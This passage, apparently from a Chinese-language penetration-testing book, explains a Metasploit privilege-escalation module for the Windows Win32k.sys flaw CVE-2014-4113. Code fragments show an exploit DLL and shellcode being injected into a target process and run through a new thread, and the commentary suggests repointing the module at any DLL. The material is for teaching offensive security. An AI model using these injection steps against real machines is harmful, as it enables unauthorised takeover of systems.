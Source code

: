 ```
    library_path = ::File.join(Msf::Config.data_directory, 'exploits', 'CVE-2014-4113', dll_file_name)
```

```
    library_path = ::File.expand_path(library_path)
```

```
    print_status("Injecting exploit into #{process.pid}...")
```

```
    exploit_mem, offset = inject_dll_into_process(process, library_path)
```

```
    print_status("Exploit injected. Injecting payload into #{process.pid}...")
```

```
    payload_mem = inject_into_process(process, payload.encoded)
```

```
    print_status('Payload injected. Executing exploit...')
```

```
    process.thread.create(exploit_mem + offset, payload_mem)
```

```
    print_good('Exploit finished, wait for (hopefully privileged) payload execution to complete.')
```

```
end
```

让我们一步步地审查这部分，并跳过状态输出：

+   首先是 `if...else** **target.arch.first == ARCH_X86` 语句。这不言自明——模块从 Metasploit `Data\Exploits` 文件夹中提取利用 DLL，这个检查使得架构能够正确地定位目标。

+   `library_path` 允许模块从攻击者的本地磁盘找到并加载利用 DLL。我希望你的创造性思维已经启动，你应该意识到，你可以修改这个模块，将它指向任何你喜欢的 DLL。

+   `exploit_mem, offset = inject_dll_into_process()` 是第一次给目标的耳光。注意，`inject_dll_into_process()` 在包含的 `ReflectiveDLLInjection` 模块中定义。这个方法接受目标进程和 DLL 的本地路径作为参数，然后返回一个包含两个值的数组——分配的内存地址和偏移量。我们的模块将这些返回值分别存储为 `exploit_mem` 和 `offset`。

+   `payload_mem = inject_into_process()` 是第二次给目标的耳光。`payload.encoded` 是我们的 shellcode（根据需要编码）。此方法仅返回一个值——目标进程内存中 shellcode 的位置。所以，如你所见，在我们的攻击的这一阶段，`payload_mem` 现在是目标内存中 shellcode 开始的位置。

+   如果前两种 DLL 注入方法是给目标的耳光，那么 `process.thread.create(exploit_mem + offset, payload_mem)` 就是我们致命的一击。我们向 `process.thread.create()` 传递了两个参数：首先是 `exploit_mem`（加上偏移量），然后是我们在内存中 shellcode 的位置 `payload_mem`。

那么，为什么我们要将 DLL 注入到一个进程中呢？易受攻击的内核模式驱动程序 `Win32k.sys` 有超过 600 个入口点，允许访问其功能；它处理了许多有用的任务。正如本章之前所讨论的，`Win32k.sys` 负责窗口管理。`Win32k.sys` 代表了该操作系统设计中一个必要的邪恶——它所需的强大功能与对用户模式程序的可访问性相结合。

# 使用 Kali 进行实际的内核攻击
